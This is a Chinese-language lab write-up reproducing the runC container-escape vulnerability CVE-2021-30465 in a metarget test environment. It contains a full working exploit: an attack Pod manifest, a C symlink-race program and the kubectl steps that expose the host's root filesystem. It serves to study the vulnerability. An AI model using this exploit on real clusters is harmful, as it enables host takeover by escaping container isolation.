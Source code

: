 # runC漏洞导致容器逃逸（CVE-2021-30465）

## 场景介绍

runC是一个CLI工具，用于根据OCI规范生成和运行容器，该工具被广泛的应用于各种虚拟化环境中，如Kubernetes。

该漏洞是由于挂载卷时，runC不信任目标参数，并将使用 “filepath-securejoin” 库来解析任何符号链接并确保解析的目标在容器根目录中，但是如果用符号链接替换检查的目标文件时，可以将主机文件挂载到容器中。黑客可利用该漏洞能将宿主机目录挂载到容器中，来实现容器逃逸。

## 漏洞详情

在容器层面挂载卷和挂载目录是不一样的。

挂载目录，对容器来说，只是简单把目录与容器的目录做映射绑定，而目录的权限还是在主机，需要用户自制维护，手动处理权限等问题。

卷 (Volume) 是受控存储，挂载卷后是由容器引擎进行管理维护的，也就是把对应卷的所有权交给了容器引擎（本次漏洞的核心点）

正常定义卷A之后 ，若a容器挂载了卷A，那它同时也挂载了卷A下面的目录。

当a容器起来后，恶意程序疯狂的在挂载的目录下刷新软连接与目录的关系。与此同时若b容器也像a容器一样挂载了相同中的卷和对应卷下面的目录。

因为卷所有权这个时候是在引擎内，并且a容器相同卷下的目录还在刷新软连接（相同于创建软连接）这个时间在容器引擎内部就会存在资源竞争，形成了漏洞。

## 环境搭建

漏洞环境准备：

```bash
./metarget cnv install cve-2021-30465
```

## 漏洞复现

因为是利用竞争条件来进行利用的，有很大概率失败的。

### 步骤一：创建攻击Pod

```bash
sudo kubectl create -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
    name: attack
spec:
    terminationGracePeriodSeconds: 1
    containers:
    - name: c1
      image: ubuntu:latest
      command: [ "/bin/sleep", "inf" ]
      env:
      - name: MY_POD_UID
        valueFrom:
          fieldRef:
            fieldPath: metadata.uid 
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test2
$(for c in {2..20}; do
cat <<EOC
    - name: c$c
      image: donotexists.com/do/not:exist
      command: [ "/bin/sleep", "inf" ]
      volumeMounts: #容器内挂载点
        - name: test1 #宿主机目录名
          mountPath: /test1 #容器内目录名
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
EOC
done
)
    volumes:
      - name: test1 #宿主机目录名
        emptyDir: #宿主机挂载点
          medium: "Memory"
      - name: test2
        emptyDir:
          medium: "Memory"
EOF
```

### 步骤二：编译恶意程序

保存以下代码为`race.c`文件并编译`gcc race.c -o race`:

```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <sys/syscall.h>

#ifndef RENAME_EXCHANGE
#define RENAME_EXCHANGE (1 << 1) 
#endif

int main(int argc, char *argv[]) {
    if (argc != 4) {
        fprintf(stderr, "Usage: %s name1 name2 linkdest\n", argv[0]);
        exit(EXIT_FAILURE);
    }
    char *name1 = argv[1], *name2 = argv[2], *linkdest = argv[3];

    int dirfd = open(".", O_DIRECTORY|O_CLOEXEC);
    if (dirfd < 0)
        exit(EXIT_FAILURE);

    if (mkdir(name1, 0755) < 0)
        perror("mkdir failed");
    if (symlink(linkdest, name2) < 0)
        perror("symlink failed");

    while (1)
        syscall(SYS_renameat2, dirfd, name1, dirfd, name2, RENAME_EXCHANGE);
}
```

### 步骤三：执行恶意程序

将恶意程序拷贝至c1容器内执行：

```bash
kubectl cp race -c c1 attack:/test1/
```

然后进去容器创建符号链接：

```bash
sudo kubectl exec -it attack -c c1 bash
ln -s / /test2/test2
```

进入/test1目录下执行程序：

```bash
seq 1 4 | xargs -n1 -P4 -I{} ./race mnt{} mnt-tmp{} /var/lib/kubelet/pods/$MY_POD_UID/volumes/kubernetes.io~empty-dir/
```

接着更新c2-c20的容器镜像为合法镜像。新打开一个终端，执行以下命令更新镜像，一旦更新，pod会尝试创建容器。

```bash
for c in {2..20}; do
  sudo kubectl set image pod attack c$c=ubuntu:latest
done
```

执行以下命令查看漏洞是否利用成功：

```bash
for c in {2..20}; do
  echo ~~ Container c$c ~~
  sudo kubectl exec -ti pod/attack -c c$c -- ls /test1/zzz
done
```

若利用成功，会打印出/test1/zzz目录下的内容，也即宿主机根目录的内容：

![image.png](images/1.png)

## 参考文献

1. https://blog.champtar.fr/runc-symlink-CVE-2021-30465/
2. https://mp.weixin.qq.com/s/WRRjLKk_C9pq2WlvnA-NZQ